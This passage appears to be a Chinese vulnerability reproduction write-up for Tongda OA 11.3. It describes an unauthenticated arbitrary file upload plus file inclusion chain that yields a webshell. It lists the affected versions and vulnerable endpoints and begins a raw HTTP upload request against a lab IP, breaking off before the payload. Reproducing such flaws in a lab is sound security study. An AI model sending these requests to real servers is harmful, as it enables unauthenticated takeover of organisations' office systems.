 # 通达OA 11.3

## 通达OA前台任意文件上传漏洞+文件包含漏洞导致getshell

### 漏洞环境

靶机（Windows server 2008 R2）IP：192.168.163.146:8080

通达OA：V 11.3版本



### 漏洞影响版本

通达OA V11版 <= 11.3 20200103
通达OA 2017版 <= 10.19 20190522
通达OA 2016版 <= 9.13 20170710
通达OA 2015版 <= 8.15 20160722
通达OA 2013增强版 <= 7.25 20141211
通达OA 2013版 <= 6.20 20141017

**备注：**

无需登录，前台即可实现漏洞利用

> 2013版：
>
> 文件上传漏洞路径：/ispirit/im/upload.php
>
> 文件包含漏洞路径：/ispirit/interface/gateway.php
>
> 
>
> 2017版：
>
> 文件上传漏洞路径：/ispirit/im/upload.php
>
> 文件包含漏洞路径：/mac/gateway.php



### 漏洞复现

#### 图片马上传

前台任意文件上传漏洞：无需登录，抓取任意数据包，修改数据包进行重放，上传后缀为jpg的木马文件

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 192.168.163.146:8080
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Connection: close
Content-Length: 662

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"
```